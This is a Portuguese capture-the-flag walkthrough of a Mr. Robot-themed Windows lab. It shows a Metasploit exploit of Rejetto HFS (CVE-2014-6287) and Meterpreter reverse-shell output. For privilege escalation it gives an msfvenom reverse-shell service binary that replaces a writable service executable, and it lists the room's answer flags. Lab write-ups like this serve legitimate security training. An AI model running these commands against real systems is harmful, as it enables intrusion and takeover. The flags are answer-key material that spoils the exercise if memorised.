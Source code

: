 # Introdução

O objetivo dessa room é hackear uma máquina Windows com tema Mr. Robot. Uso do metasploit para acesso inicial, utilização de powershell para enumeração de escalonamento de privilégios do Windows e uso de uma nova técnica para obter acesso de administrador.

# Execução

## Task 1 - Introduction

A primeira tarefa consiste apenas em realizar o deploy da VM alvo e responder uma questão. 

Ao abrir o ip da VM no navegador, é exibida a página, conforme figura abaixo:

![Home page](images/employee_of_the_month.png)

Como dica para resposta da questão da task: ***Reverse image search***.

Primeira medida, consultar o código fonte da página para ver se tem alguma pista:

![Source code](images/employee_of_the_month02.png)

Nome do arquivo da foto do empregado: ***BillHarper.png***. Está ai a resposta!!!
### Questões:

- a. ***Who is the employee of the month?*** *Bill Harper*

## Task 2 - Initial Access  

Após o deploy da VM, primeiro etapa para continuar com a resolução da room, é um scan port.

### nmap

Criando uma variável de ambiente com o IP do alvo:

```shell
export TARGET=10.10.44.161
```

Execução do nmap:

```shell
nmap -A -T5 -Pn -p- $TARGET -oX portscan -vvv
```

Mais informações do comando acima no [link](https://explainshell.com/explain?cmd=nmap+-A+-T5+-Pn+-p-+%24TARGET+-oX+portscan+-vvv)

Outra porta está respondendo na web, a porta 8080. Ao abrir no browser http://TARGET:8080, observa-se que existe um serviço HPS rodando. Ao acessar http://www.rejetto.com/hfs/, site do fornecedor, pode ser respondida a questão ***b***.

### Pesquisa por CVE

De posse do nome do serviço e versão (HttpFileServer 2.3), pode-se acessar o https://www.exploit-db.com/ para verificar a existência de exploits e checar qual CVE para responder a questão ***c***.

A pesquisa é retornada diretamente no link: https://www.exploit-db.com/exploits/49125

Na própria descrição, existe a CVE indicada: CVE-2014-6287. Para responder a questão ***c***, colocar apenas a parte que tem os números, ou seja, 2014-6287.

### Acesso inicial

Inicia-se o msfconsole:

```shell
msfconsole
```

Pesquisa dentro da console do msfconsole:

![Search no msfconsole](images/msfconsole_search_httpfileserver.png)

Habilitar o exploit:

```shell
msf6 > use exploit/windows/http/rejetto_hfs_exec 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

Para confirmar o que necessida ser configurado, basta digitar ***options***.

Após realizar as configurações necessárias, basta executar o comando ***run***.

```shell
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.8.95.233:4443 
[*] Using URL: http://10.8.95.233:8888/qYhpuVYDp6r7
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /qYhpuVYDp6r7
[*] Meterpreter session 1 opened (10.8.95.233:4443 -> 10.10.44.161:49278) at 2022-07-17 20:06:02 -0400
[*] Server stopped.
[!] This exploit may require manual cleanup of '%TEMP%\UDHzvnZunWC.vbs' on the target

meterpreter > 
```

Para responder a questão, há uma dica ***C:\Users\bill\Desktop***. Após a shell reversa ser aberta, basta ir até o diretório indicado e visualizar o conteúdo do arquivo ***user.txt***.

```shell
meterpreter > dir
Listing: C:\Users\bill\Desktop
==============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-09-27 07:07:07 -0400  desktop.ini
100666/rw-rw-rw-  70    fil   2019-09-27 08:42:38 -0400  user.txt

meterpreter > cat user.txt
b04763b6fcf51fcd7c13abc7db4fd365
meterpreter > 
```

### Questões:

- a. ***Scan the machine with nmap. What is the other port running a web server on?*** *8080*

- b. ***Take a look at the other web server. What file server is running?*** *Rejetto HTTP File Server*

- c. ***What is the CVE number to exploit this file server?*** *2014-6287*

- d. ***Use Metasploit to get an initial shell. What is the user flag?*** *b04763b6fcf51fcd7c13abc7db4fd365*

## Task 3 - Privilege Escalation  

Agora que já se tem um acesso inicial ao alvo, deve-se realizar uma enumeração em busca de fraquezas que possam ser exploradas para elevar privilégios.

Para enumerar esta máquina, pode-se usar o script powershell chamado ***[PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)***, cujo objetivo é avaliar uma máquina Windows e determinar quaisquer anormalidades, que permitam escalonamento de privilégios do Windows que dependem de configurações incorretas.

Após realizar o download do script para a máquina atacante, dentro do msfconsole, é possível realizar o upload, com o comando:

```shell
upload PATH_ONDE_SALVOU_O_DOWNLOAD_DO_SCRIPT/PowerUp.ps1
```

Execução:

```shell
meterpreter > upload /home/kali/PowerUp.ps1
[*] uploading  : /home/kali/PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 2.13 MiB of 2.13 MiB (100.0%): /home/kali/PowerUp.ps1 -> PowerUp.ps1
[*] uploaded   : /home/kali/PowerUp.ps1 -> PowerUp.ps1
```

Para executar o script, primeiro inicia-se o powershell dentro da console do meterpreter:

```shell
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > 
```

Execução do script:

```shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```
Na saída, haverá a resposta para questão ***b*** .

A opção CanRestart estando configurada como Trus, nos permite reiniciar um serviço no sistema, o diretório para o aplicativo também é gravável, permitindo que possamos substituir o aplicativo legítimo por um malicioso, reiniciar o serviço, que executará nosso programa infectado!

Com o msfvenom, vamos gerar um shell reverso como um executável do Windows:

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=IP_HOST_ATACANTE LPORT=4444 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe
```

Usando um payload novo de shell reverso:

```shell
meterpreter > background
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST IP_HOST_ATACANTE
set LPORT 4444
run -j
```

Retornando para a sessão antiga:

```shell
shell
sc stop AdvancedSystemCareService9
```

Após parar a aplicação, pressione CTRL+C, responda y.

Realize o upload do exploit, arquivo executável malicioso:

```shell
upload ASCService.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
```

Retorne novamente ao shell e inicie a aplicação, que executará agora o arquivo malicioso:

```shell
shell
sc start AdvancedSystemCareService9
```

Um shell com permissão elevada será obtido. Agora basta ler o conteúdo do arquivo ***C:/Users/Administrator/Desktop/root.txt***. Resposta da questão ***d***.
### Questões:

- a. ***Informações sobre como enumerar o alvo*** *Não há necessidade de resposta*

- b. ***Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?*** *AdvancedSystemCareService9*

- c. ***Informações adicionais*** *Não há necessidade de resposta*

## Task 4 - Access and Escalation Without Metaspl
oit 

- d. ***What is the root flag?*** 9af5f314f57607c00fd09803a587db80


